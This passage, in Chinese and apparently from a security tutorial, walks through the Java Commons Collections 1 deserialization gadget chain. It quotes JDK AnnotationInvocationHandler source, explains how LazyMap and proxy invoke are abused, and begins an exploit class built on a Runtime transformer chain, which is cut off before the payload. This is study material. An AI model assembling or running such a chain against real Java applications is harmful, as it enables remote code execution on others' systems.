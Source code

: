```java
    Object object = this.memberValues.get(str); // <--- 这里调用了 get, 而且 memberValues 也是 Map 类型, 可以把 LazyMap 放在这里
    if (object == null)
        throw new IncompleteAnnotationException(this.type, str); 
    if (object instanceof ExceptionProxy)
        throw ((ExceptionProxy)object).generateException(); 
    if (object.getClass().isArray() && Array.getLength(object) != 0)
        object = cloneArray(object); 
    return object;
}
```

再来看这个类的 `readObject`  

```java
private void readObject(ObjectInputStream paramObjectInputStream) throws IOException, ClassNotFoundException {
    paramObjectInputStream.defaultReadObject();
    AnnotationType annotationType = null;

    try {
        annotationType = AnnotationType.getInstance(this.type);
    } catch (IllegalArgumentException illegalArgumentException) {
        throw new InvalidObjectException("Non-annotation type in annotation serial stream");
    } 

    Map map = annotationType.memberTypes();
    for (Map.Entry entry : this.memberValues.entrySet()) {
        String str = (String)entry.getKey();
        Class clazz = (Class)map.get(str);
        if (clazz != null) {
            Object object = entry.getValue();
            if (!clazz.isInstance(object) && !(object instanceof ExceptionProxy))
                entry.setValue((new AnnotationTypeMismatchExceptionProxy(object.getClass() + "[" + object + "]")).setMember((Method)annotationType.members().get(str))); 
        } 
    } 
}
```

关键点在 `this.memberValues.entrySet()`, 那么问题来了, 这里又跟 invoke 有什么关系呢.  
这里涉及到 java 的动态代理机制, 这里不再赘述, 可以理解为调用这个方法实际上调用的是代理的 invoke, 在上面可以看到 AnnotationInvocationHandler 本身继承了 InvocationHandler 且重写了 invoke 方法. 刚好可以拿来利用, 接下来问题就很简单了, exp 如下

```java
package demo.rmb122;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(java.lang.Runtime.class),
```